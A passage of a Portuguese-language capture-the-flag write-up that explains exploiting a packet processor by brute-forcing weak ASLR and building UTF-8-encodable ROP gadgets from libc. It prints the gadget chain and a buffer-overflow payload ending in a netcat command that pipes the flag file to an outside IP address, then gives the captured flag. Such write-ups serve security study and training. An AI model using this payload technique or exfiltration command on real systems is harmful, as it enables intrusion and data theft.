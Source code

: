```c
    }

    if (newPacket->confidence > 100) {
        return -1;
    }

    if (!isValidUtf8(newPacket->description)) {
        return -1;
    }

    return 0;
}
```

Importante para nós é a verificação da descrição. O processador garante que o campo de descrição contenha apenas caracteres UTF-8. Isso tornará a exploração muito mais complexa.

O processador é compilado com ASLR, mas lembramos do script **S99start**, que apenas 10 bits de aleatoriedade são definidos. Portanto, nenhum vazamento é necessário, mas uma força bruta `1/1024` pode ser usada em vez disso.

Ao tentar encontrar gadgets que sejam codificáveis ​​em UTF-8, é importante entender como o UTF-8 funciona. O intervalo UTF-8 de 1 byte é de `0x00-0x7f`. Isso provavelmente não será suficiente para codificar gadgets significativos. Mas também há caracteres UTF-8 de 2, 3 e 4 bytes. Eles permitem codificar de 1 a 2 bytes arbitrários, enquanto sobrepujam o próximo byte.

Existem várias maneiras de encontrar gadgets agora. Minha abordagem foi executar o ropper em `libc` para extrair todos os gadgets primeiro. Depois, escrevi um pequeno script gadget helper.py que adiciona todos os 1024 deslocamentos ASLR aos gadgets. Para cada deslocamento, ele verifica se cada gadget é codificável em UTF-8. Se for, ele grava os gadgets em um novo arquivo. Para reduzir o número de arquivos, excluí os deslocamentos ALSR, onde `system` não era codificável em UTF-8.

Então criei a seguinte cadeia de gadgets no deslocamento ALSR 32:

```python
SYSTEM  = 0x76abd258 #                                                            SYSTEM # 0x76eb0258 
JMP1    = 0x76afca50 #['0x76afca50', 'pop {r4, pc}; ldr r0, [r0, #0x64]; bx lr;']   JMP2 # 0x76ee0824
JMP2    = 0x76aed824 #['0x76aed824', 'add r0, sp, #0x10; blx r4;']                  JMP1 # 0x76ed3f0c
```

O gadget JMP2 permite mover o stackpointer sp para r0. O gadget JMP1 é usado para mover o endereço do sistema para r4. Em combinação, isso nos permitirá chamar system(<command on stack>).

O paylod final se parece com isso:

```python
payload  = b"A"*136 # buffer
payload += b"aaaa"  # r7
payload += p32(JMP1)
payload += p32(SYSTEM)
payload += p32(JMP2)
payload += b"B"*16
payload += b"cat /flag | nc 167.71.33.163 1"
```

  
Por fim, eu só tive que executar o exploit em um loop até que meu offset ASLR desejado aparecesse. Veja exploit.py para o script completo do exploit.

Dando a flag, **PCTF{C0ngratz_on_exp0sing_@ll_th3_phant0ms_bFKLgqJzh8sV4}**
